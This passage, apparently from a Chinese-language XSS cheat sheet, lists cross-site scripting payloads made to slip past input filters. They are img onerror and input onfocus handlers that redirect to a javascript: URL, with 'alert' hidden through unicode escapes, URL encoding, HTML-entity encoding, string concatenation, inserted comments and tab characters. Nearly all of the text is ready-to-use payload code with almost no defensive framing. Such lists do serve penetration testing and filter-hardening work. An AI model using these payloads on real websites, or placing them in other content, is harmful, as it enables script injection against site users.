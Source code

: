 2.对 alert 的 unicode 编码进行 url 编码 （括号和括号里的值不能编两次，也可以不进行 unicode 编码而进行 url 编码，二者只能选择其一）

```
%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34
```

```
<img/src/onerror=location="javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34\u0028\u0031\u0029">
```

3.对 location="javascript:alert(1);" 的 alert(1); 进行 unicode 编码后又对 alert 进行编码后对  location="javascript:alert(1);" 这个编码的结果再进行 html 编码

```
&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x3d;&#x22;&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x31;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x36;&#x33;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x35;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x34;&#x5c;&#x75;&#x30;&#x30;&#x32;&#x38;&#x5c;&#x75;&#x30;&#x30;&#x33;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x32;&#x39;&#x22;
```

```
<img/src/onerror=&#x6c;&#x6f;&#x63;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x3d;&#x22;&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x31;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x36;&#x33;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x35;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x34;&#x5c;&#x75;&#x30;&#x30;&#x32;&#x38;&#x5c;&#x75;&#x30;&#x30;&#x33;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x32;&#x39;&#x22;>
```

字符串切割：

```
字符串中的部分（""中的内容） "javascript:alert(1);" 可以写成	"j"+"a"+"v"+"a"+"s"+"c"+"r"+"i"+"p"+"t"+":"+"a"+"l"+"e"+"r"+"t"+"("+"1"+")"
```

```
<img/src/onerror=location="j"+"a"+"v"+"a"+"s"+"c"+"r"+"i"+"p"+"t"+":"+"a"+"l"+"e"+"r"+"t"+"("+"1"+")">
```

注释绕过（`/*注释*/`）

```
<input onfocus=location="java&#09;sc"+/**/"ript:\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029" autofocus>
```

注释加入到分割

```
<img/src/onerror=location="j"+"a"+/**/"v"+"a"+"s"+"c"+"r"+"i"+"p"+"t"+":"+"a"+"l"+"e"+"r"+"t"+"("+"1"+")">
```
